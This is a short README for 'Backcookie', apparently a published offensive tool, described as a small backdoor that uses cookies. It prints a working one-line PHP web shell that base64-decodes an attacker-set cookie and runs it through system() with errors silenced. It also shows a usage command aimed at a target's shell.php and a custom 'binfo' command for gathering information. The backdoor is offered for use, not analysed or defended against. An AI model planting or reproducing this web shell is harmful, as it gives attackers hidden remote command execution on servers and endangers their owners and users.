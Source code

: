 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/jofpin/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/jofpin/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Developer

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------
